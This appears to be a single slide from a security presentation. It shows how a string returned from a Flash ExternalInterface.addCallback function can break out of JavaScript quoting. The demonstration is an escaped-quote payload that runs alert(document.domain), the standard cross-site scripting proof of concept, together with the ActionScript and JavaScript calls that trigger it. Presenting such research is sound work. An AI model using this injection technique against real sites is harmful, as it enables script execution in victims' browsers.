

JavaScript Implementation 3
ExternalInterface.addCallback

document.getElementById("swf").test();
__flash__addCallback(document.getElementById("swf_ie"), "test");
"aa\\";alert(document.domain);//aa"

import flash.external.ExternalInterface;
function test(k:String="default"):String {
	var str:String = 'aa\\";alert(document.domain);//aa';
	return str;
}
ExternalInterface.addCallback("test", test);